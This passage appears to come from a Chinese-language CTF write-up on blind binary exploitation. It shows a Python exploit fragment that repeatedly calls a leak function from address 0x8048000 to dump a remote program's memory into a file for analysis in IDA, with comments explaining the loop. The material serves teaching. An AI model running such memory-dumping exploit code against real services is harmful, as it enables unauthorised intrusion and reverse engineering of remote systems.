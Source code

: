 ```bash

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        #泄漏地址动态增加，假如泄漏 1 字节就增加 1；泄漏 3 字节就增加 3
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
        #处理泄漏长度为 0，也就是数据是 \x00 的情况。地址增加 1，程序数据加 \x00
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin','wb') as f:
        f.write(text_seg)
```

通过上述 leak.py，我们可以在程序加载地址开始就泄露二进制文件，之后可以将获得的文件放入 IDA

[![](assets/1701612281-aae779bbb927fd74c12c8c7acdacd1ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224053-19348e04-2579-1.png)
